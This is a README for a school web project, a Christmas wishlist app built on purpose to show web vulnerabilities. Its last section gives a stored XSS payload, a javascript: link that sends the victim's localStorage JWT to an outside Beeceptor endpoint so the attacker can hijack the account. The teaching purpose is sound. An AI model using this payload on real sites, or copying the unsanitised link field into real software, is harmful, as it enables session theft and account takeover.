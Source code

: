 # 🎅 Santa's Wishlist 🎄
Create and share your Christmas wishlists to your friends to help Santa find what kind of gifts you want !\
⚠️ This project is a school project designed to demonstrate and exploit some web vulnerabilities.

## 🇫🇷 Consigne
Santa's little helper : cette application web permet aux membres d'un groupe de gérer une ou des listes de souhaits pour des cadeaux de Noël, et de choisir dans la liste d'autres personnes ce qu'ils pourront leur offrir (l'application garantissant l'absence de conflits et préservant au maximum la surprise). Différentes améliorations peuvent être imaginées, comme l'organisation d'un événement de type "secret santa", des facilités dans l'interactions avec des sites marchants, l'envoi de messages éventuellement anonymes...

## 👷 Installation
To run the app in a docker, run the following commands from the project's root folder :
```
docker build --file=front/front.dockerfile -t santa-wishlist-front .
docker build --file=back/back.dockerfile -t santa-wishlist-back .
docker-compose -f docker-compose.yml up
```
Then connect to `localhost:3000`

## 🎁 Functionalities
The user can create an account. When logged in, he can create a new wishlist for himself or see his other wishlists. To sign in, the following information are needed :
- a name
- a surname
- a pseudonym
- a password
- (TBI : email for password recovery. For now : DON'T FORGET YOU PASSWORD !)
- (TBI : a profile picture)

To create a wishlist, the user must give it a name. He then gets a unique link he can share to his friends (TBI : invite through in-website pseudonym). This link must be some kind of a hash to not be easily findable.

On a wishlist the user has created, he can add, edit or remove gifts. A gift is composed of (* = mandatory) :
- a name*
- a description
- a link (to Amazon for example)
- a price
- (TBI : a picture)

When a friend is given a link to a wishlist, he must log in and then gets redirected to the wishlist. He's added to the wishlist and can see all the gifts and other friends. The wishlist is automaticaly added to his wishlists on his profile to be accessed quickly.

On a wishlist, a friend can choose a gift he wants to buy. The gift is then marked as bought and cannot be selected by another friend (TBI : multiple friends should be able to buy the same gift together). The owner of the wishlist cannot see which gifts are already selected.

The owner of a wishlist can delete it at any time.

## 🕸️ Structure
**Main page :** home webpage explaining the concept of the website.

**Sign in :** quick form to create an account on the website.

**Log in :** form to log in. Only the pseudonym and password are needed.

The following pages require the user to be logged in :

**My Wishlists :** see your wishlists and invite some friends with the link. Add, edit or remove gifts or delete the wishlist.

**Friends' Wishlists :** access the wishlists you are invited to and choose some gifts you will buy to them. You can see which gifts are available.


## Scenario d'attaque

L'application est vulnérable aux XSS sur les liens des différents cadeaux : il est possible d'écrire `javascript:alert(1)` pour qu'au clic, une alerte s'affiche.

On joue l'attaque suivante : 

Sopalinge se connecte et crée un nouveau cadeau dans sa wishlist dont le lien contient le code suivant : `javascript:var xhr = new XMLHttpRequest();xhr.open("GET", "http://sopalinge.free.beeceptor.com/" + window.localStorage['santaToken'], false);xhr.send();`

Sopalinge se connecte à son endpoint beeceptor : `http://sopalinge.free.beeceptor.com/`.

Futex se connecte et consulte la wishlist de Sopalinge. Il clique sur le lien malveillant de Sopalinge et ne se rend compte de rien.

Pendant ce temps, Sopalinge récupère une requête sur son endpoint qui contient le token jwt de Futex. Il peut alors se connecter au site et modifier son token par celui de Futex et avoir accès à son compte !
